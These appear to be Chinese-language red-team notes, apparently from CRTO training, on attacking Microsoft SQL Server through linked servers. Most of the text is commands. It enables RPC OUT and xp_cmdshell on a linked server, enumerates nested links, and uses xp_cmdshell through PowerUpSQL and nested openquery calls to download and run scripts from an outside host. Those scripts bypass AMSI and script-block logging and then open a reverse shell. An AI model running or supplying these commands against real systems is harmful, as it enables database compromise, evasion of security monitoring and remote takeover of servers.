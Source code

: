 指定在db-sqlsrv上操作
```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```


## 启用RPC OUT和xp_cmdshell

```
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"

Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"

Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""

Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```


## 在HeidiSQL客户端操作

找当前链接下的链接
```
select * from master..sysservers
```

枚举指定链接下面的连接
```
select * from openquery("192.168.23.25",'select * from master..sysservers')
```

 嵌套链接，执行sql语句
```
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
```

获取一个rev shell
```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell ''''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcp.ps1)"'''''')')
```


# MSSQL（CRTO）

使用工具：[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

枚举某个实例下的链接
```
powershell Get-SQLQuery -Instance "sql" -Query "SELECT * FROM master..sysservers"
```
